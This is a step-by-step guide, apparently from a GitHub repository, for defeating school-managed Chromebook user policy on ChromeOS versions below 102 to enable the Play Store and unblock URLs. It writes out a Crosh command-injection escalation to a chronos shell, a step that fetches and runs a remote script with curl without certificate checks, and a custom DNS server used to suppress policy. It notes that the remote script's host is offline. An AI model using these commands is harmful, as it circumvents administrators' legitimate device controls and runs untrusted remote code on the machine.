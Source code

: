 ```yaml
---
title: user-policy-bypass-to-v101
---
```


-e 
DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

This should enable ARC (Play Store) and unblock all policy blocked URLs.

When you connect to a wifi without the custom DNS, the policy will reload to normal but some changes will persist - more testing is needed. 
This is useful because most root exploits require ARC in some form.

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

You need:
-> The ability to downgrade to a version below 102.
-> A way to access Crosh. If it's blocked via extension, use LTBEEF. If it's blocked by user policy, you must use a combination of the Incognito Exploit (v81) and Crosh Bypass (Daybreak)
-> A router or hotspot capable of either blocking websites via parental control or setting a custom DNS (129.213.58.41)

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

Steps:
1. Downgrade to a version below 102.

2. Open Crosh (CTRL+ALT+T or chrome-untrusted://crosh)

3. Elevate to a chronos shell by typing in the following:
set_cellular_ppp ';bash;exit'

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

4. Run the command below (including the disown part!):
sh <(curl -k https://coolelectronics.me/bypass.sh) & disown

5. Remove your school account, log out or just clear it in any way you can. The method varies depending on how your device policy is set up.

6. In your router settings, set the DNS to 129.213.58.41 or block m.google.com. (NOT THE NETWORK DNS ON THE CHROMEBOOK SINCE IT WON'T WORK)
-> personalDNSfilter and hotspot or DNS Sinkhole + Hotspot on iOS can be used; NextDNS

7. Log into your school account.

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

Results should prompt you about a PIN and Google Play. It will then drop you into an account where everything works as normal but no user policies are set. 
If you get a "sign in required" error, try doing going through the steps again.

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

- https://discord.com/channels/419123358698045453/1040639727595950180 -

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!

Credits:
https://github.com/titaniumnetwork-dev/Oxide-Docs/blob/master/docs/kajigs.mdx
velzie/CoolElectronics
Titanium Network

DEPRECATED!!! STEP 4 IS IMPOSSIBLE AS COOLELECTRONICS TOOK THE WEBSITE DOWN!!!
